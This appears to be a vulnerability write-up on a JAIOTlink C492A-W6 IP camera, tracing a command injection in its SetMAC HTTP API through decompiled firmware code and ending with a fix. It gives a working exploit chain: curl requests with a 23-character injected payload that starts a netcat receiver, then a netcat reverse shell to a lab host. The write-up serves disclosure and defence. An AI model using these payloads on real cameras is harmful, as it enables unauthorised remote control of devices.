








# Part 1: Turning `SetMAC` into Command Execution

This was the bug that made the whole camera worth digging into.

I was looking at a JAIOTlink 2.4G/5G Wi-Fi IP camera, model `C492A-W6`. The device exposes a local HTTP API through the `anyka_ipc` process on port `80`. Most of the API surface is not obvious from a browser because `/` just returns a plain `404`, but the companion app and firmware made it clear that there were plenty of API-style routes behind it.

The endpoint that ended up mattering was:

```text
/NetSDK/Factory?cmd=SetMAC
```

It accepts JSON like this:

```json
{
  "Wireless": "A4:86:DB:76:23:DE"
}
```

That sounds boring. It should just update a MAC address. Instead, the value eventually gets dropped into a shell command.



## First clue: the logs were telling on themselves

Once I had debug logging enabled, sending a normal `SetMAC` request produced a log line like this:



The request that caused that was just:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"A4:86:DB:76:23:DD"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

At first glance the log looks normal, but the important part is this:

```text
echo A4:86:DB:76:23:DD > /etc/jffs2/WifiMac
```

My HTTP-controlled value was being inserted into a command string. That was enough to stop and trace the path.

## The path from HTTP to shell

At a high level, the request flows like this:

```text
HTTP PUT /NetSDK/Factory?cmd=SetMAC
        |
        v
NetSDK_CGI_OnFactory()
        |
        v
FUN_001720a8()                      // SetMAC HTTP handler
        |
        v
N1Device_EvtProductSetOemMac()
        |
        v
OnOemMac()
        |
        v
NK_XAPI_SetIoctrl(... Wireless ...)
        |
        v
NET_WIFI_SetParam(..., Wireless, 0x18)
        |
        v
NETWORK_WIFI_Efuse_Set_Mac()
NETWORK_WIFI_Flash_Set_Mac()
        |
        v
snprintf("echo %s > /etc/jffs2/WifiMac", Wireless)
        |
        v
[WIFISELF_System]: echo <Wireless> > /etc/jffs2/WifiMac
        |
        v
system() / registered system wrapper
```

The factory dispatcher reads the `cmd` query parameter. When the command is `SetMAC`, it calls the SetMAC handler:

```c
if (sVar2 == 6) {
  iVar3 = strcasecmp(pcVar1, "SetMAC");
  if (iVar3 == 0) {
    FUN_001720a8(param_4, param_5);
    return;
  }
}
```

The handler parses the JSON body and looks for `Wireless` and `EthMac`:

```c
wireless_json = NK_JSON_QueryPath(local_4068,"$.Wireless");
wireless = NK_JSON_GetString(wireless_json,0);

eth_json = NK_JSON_QueryPath(local_4068,"$.EthMac");
eth = (char *)NK_JSON_GetString(eth_json,0);

if (wireless != NULL) {
  snprintf((char *)&local_4058, 0x18, "%s", wireless);
}

if (eth != NULL) {
  snprintf((char *)&uStack_4040, 0x18, "%s", eth);
}
```

That `0x18` matters. It is 24 bytes total, including the null terminator, so only 23 visible characters survive.

So the value is truncated, but not actually validated as a full MAC address.

## The parser only checks the beginning

The Wi-Fi module uses a function table for chipset-specific implementations. In the attached decompiled output, the flash MAC setter appears as a function pointer entry rather than a fully named function. In my Ghidra view, this path appeared as `UndefinedFunction_00094aac`.

Relevant function-table style snippet from `NETWORK_WIFI_Module_Init()`:

```c
puVar3[0xb] = NK_WIFI_Atbm_Efuse_SetMac;
puVar3[0xe] = FUN_00095708;
puVar3[0xc] = NK_WIFI_Atbm_Efuse_GetMac;
puVar3[0xd] = &DAT_00094aa4;
```



Lower down, the Wi-Fi MAC setter does try to parse the value as a MAC address:

```c
iVar1 = sscanf(param_2,"%02X:%02X:%02X:%02X:%02X:%02X",&uStack_a8,&uStack_a4,&uStack_a0,
               &uStack_9c,&uStack_98,&uStack_94);
if (iVar1 == 6) {
  snprintf(acStack_90,0x80,"echo %s > %s",param_2,"/etc/jffs2/WifiMac");
  FUN_0009483c(acStack_90);
  return 0;
}
```

The problem is that `sscanf()` only needs to parse six fields from the beginning of the string. It does not prove that the entire string is a valid MAC address. So a string can start with something MAC-like and still have shell metacharacters after it.

The shell wrapper then logs and runs the command:



So the bug is not just “bad MAC validation.” The bug is that the value is validated as if it is data, then later used as shell syntax.

## Why the payload had to be tiny

Because of the `snprintf(..., 0x18, ...)`, the `Wireless` value is capped at 23 visible characters.

The shortest MAC-looking prefix I found that passed the parser was:

```text
1:2:3:4:5:6
```

That is 11 characters. Add a command separator:

```text
;
```

That leaves 11 characters for the injected command:

```text
23 - 11 - 1 = 11
```

The useful payload was:

```text
1:2:3:4:5:7;nc -lp 9|sh
```

Breakdown:

| Segment | Text | Length |
|---|---|---:|
| MAC-looking prefix | `1:2:3:4:5:7` | 11 |
| Command separator | `;` | 1 |
| Injected command | `nc -lp 9\|sh` | 11 |
| Total | `1:2:3:4:5:7;nc -lp 9\|sh` | 23 |

That turns the firmware-generated command into something equivalent to:

```sh
echo 1:2:3:4:5:7;nc -lp 9|sh > /etc/jffs2/WifiMac
```

The shell parses that as two commands:

```sh
echo 1:2:3:4:5:7
nc -lp 9 | sh > /etc/jffs2/WifiMac
```

The redirection makes output annoying, but that does not matter. The useful part is that the camera starts listening on TCP port `9` and pipes anything it receives into `sh`.



## Working lab path: get a shell through the script receiver

This was the cleanest working path in my lab.

First, save the current MAC values so the device can be restored afterward:

```bash
CAM=172.14.10.1
curl -s -u admin: "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Observed:

```json
{"Wireless":"A4:86:DB:76:23:DE","EthMac":"00:00:00:00:00:00"}
```

Then start the tiny `nc -lp 9|sh` receiver through the vulnerable API:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"1:2:3:4:5:7;nc -lp 9|sh"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Using `netstat -pant`, we can see that our tiny OS command injection worked and it is listening on port 9.



Start a listener on the host:

```bash
nc -lvnp 4444
```

In my lab, the host was reachable by the camera at `172.14.10.2`, so I sent the larger command into the camera-side receiver:

```bash
CAM=172.14.10.1
cat <<'EOF' | nc -w 3 "$CAM" 9
nc 172.14.10.2 4444 -e /bin/sh
EOF
```

That gave me a shell from the `anyka_ipc` execution path.



Looking at the logs, we can see a successful execution of the OS command injection.



After testing, restore the original MAC settings:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"A4:86:DB:76:23:DE"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

## One annoying behavior: reused values may not retrigger

`OnOemMac()` compares the new wireless MAC with the current one:

```c
strncasecmp(param_3, current_wireless_mac, 0x18)
```

If the value did not change, the lower setter path may not run again. During testing I rotated the last MAC digit to force the path to execute:

```json
{"Wireless":"1:2:3:4:5:7;nc -lp 9|sh"}
{"Wireless":"1:2:3:4:5:8;nc -lp 9|sh"}
{"Wireless":"1:2:3:4:5:9;nc -lp 9|sh"}
```

## Root cause

The root cause is a chain of small mistakes:

1. The HTTP API accepts a user-controlled `Wireless` string.
2. The value is truncated to 23 visible characters but not strictly validated.
3. The lower parser only checks that the beginning can be parsed as six MAC-like fields.
4. The original string, including trailing shell syntax, is inserted into `echo %s > /etc/jffs2/WifiMac`.
5. The command is executed through a system wrapper.

The fix is straightforward: strictly validate the MAC address and stop using shell commands for file writes.

A strict format check should reject anything that is not exactly this shape:

```regex
^([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}$
```

And instead of this:

```sh
echo "$mac" > /etc/jffs2/WifiMac
```

use normal file APIs like `open()`, `write()`, and `close()`.
